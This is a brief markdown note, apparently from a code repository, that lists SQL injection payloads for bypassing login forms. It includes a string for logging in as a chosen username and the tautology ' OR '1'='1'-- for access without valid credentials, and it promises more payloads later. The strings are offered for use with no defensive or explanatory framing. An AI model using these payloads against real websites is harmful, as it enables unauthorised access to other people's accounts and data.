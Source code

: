 ## Payload to use sql injection

' OR username = 'any user you want'--'
example:
[' OR username = 'corner'--']

## Payload ACCESS without users
' OR '1'='1'--

## Other Payload i will added after